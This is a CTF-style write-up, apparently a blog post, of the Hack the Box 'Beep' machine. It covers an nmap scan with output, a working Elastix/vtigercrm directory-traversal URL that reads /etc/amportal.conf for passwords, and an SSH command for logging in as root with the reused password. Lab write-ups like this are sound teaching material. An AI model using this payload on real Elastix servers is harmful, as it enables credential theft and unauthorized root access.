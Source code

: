 ```yaml
---
type: post
title: "Hack the Box Beep Write-up"
date: 2020-05-17 10:00:00 +1000
---
```

Continuing the "OSCP-like" boxes series with Beep from Hack the Box.

## Overview

![Beep information image](/assets/img/beep/beep-infocard.png){: .align-right}

Beep is another CVE based machine with multiple entry points. Some of which give instant root access and others which require some privilege escalation on the box.

Skills tested:

- Port scanning
- Service enumeration
- Vulnerability CVE identification
- Vulnerability exploitation
- Privilege escalation (optional)

## Scanning and Enumeration

Scanning this box with nmap `nmap -sC -sV -oA nmap/beep 10.10.10.7` finds a large number of ports open. Ports 80 and 443 are normally the best to begin enumerating but 10000 (webmin) is also potentially vulnerable and the other services may provide valuable for user enumeration or information leakage.

```text
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: RESP-CODES AUTH-RESP-CODE LOGIN-DELAY(0) EXPIRE(NEVER) STLS USER APOP UIDL PIPELINING IMPLEMENTATION(Cyrus POP3 server v2) TOP
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: IMAP4 Completed OK LISTEXT X-NETSCAPE BINARY UIDPLUS URLAUTHA0001 RIGHTS=kxte CONDSTORE ACL IMAP4rev1 NAMESPACE STARTTLS NO IDLE ANNOTATEMORE RENAME CHILDREN SORT MULTIAPPEND CATENATE THREAD=REFERENCES THREAD=ORDEREDSUBJECT MAILBOX-REFERRALS SORT=MODSEQ UNSELECT LIST-SUBSCRIBED ATOMIC LITERAL+ ID QUOTA
443/tcp   open  ssl/https?
|_ssl-date: 2020-05-12T14:14:57+00:00; +1m20s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

## Port 80 and 443

![Beep http login page](/assets/img/beep/beep-port80-login.png){: .align-right}

Browsing to port 80 redirects to port 443 and displays the login page for "Elastix" as seen on the right. This leads us to a exploit-db.com and a possible local file inclusion (LFI) exploit that appears simple of execute.

The [Elastix exploit](https://www.exploit-db.com/exploits/37637) is relatively straightforward to perform. The directory traversal and LFI allow for the reading of a sensitive configuration file and some password reuse allows us to directly login as root via SSH.

## Elastix LFI

Browsing to `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` presents us with the contents of amportal.conf and some sensitive passwords.

![Beep LFI](/assets/img/beep/beep-elastix-lfi.png){: .align-center}

Using SSH we can try that password as root. You may run into a protocol negotiation error but we can get around that by specifying the protocols directly as shown below.

`ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc root@10.10.10.7`

Once we login with the exposed password we have full access to the box and can grab both the user.txt and root.txt flags!

## Optional Extras

There are a number of other ways to own this box as shown in [IppSec's YouTube walkthough](https://www.youtube.com/watch?v=XJmBpOd__N8) of beep.

- A FreePBX exploit
- Webmin shellshock exploit

Enjoy!
